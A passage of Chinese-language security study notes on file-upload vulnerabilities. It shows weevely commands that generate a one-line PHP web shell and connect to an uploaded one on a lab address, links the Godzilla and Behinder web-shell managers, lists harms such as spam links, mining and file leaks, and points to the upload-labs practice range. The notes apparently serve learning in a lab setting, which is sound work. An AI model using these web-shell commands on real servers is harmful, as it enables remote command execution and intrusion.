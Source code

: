 ### weevely 地址 密码 命令

连接已经上传的一句话木马，在目标上运行终端和命令

`weevely http://192.168.31.193:8088/uploads/shell.php wuya `

### weevely session 密码 命令

可以恢复现有会话，在连接但是没有使用的会话

### weevely generate  密码 文件

生成一个一句话木马

`weevely generate wuya weevely.php`

## 哥斯拉 godzilla

https://github.com/BeichenDream/Godzilla/releases 

## 冰蝎 behinder

https://github.com/rebeyond/Behinder/releases



# 文件上传漏洞危害

## 文件上传漏洞 

文件上传漏洞是指用户上传了一个**可执行的脚本文件**，

而且通过这个脚本文件获得了执行服务器端命令的能力。

## 危害：黑链

![image-20221121210017240](https://img.gyxnb.top/img/image-20221121210017240.png)

## 危害：挖矿

![image-20221121210034655](https://img.gyxnb.top/img/image-20221121210034655.png)

## 危害：文件泄露

![image-20221121210110124](https://img.gyxnb.top/img/image-20221121210110124.png)

# 文件上传漏洞靶场安装

https://github.com/c0ny1/upload-labs
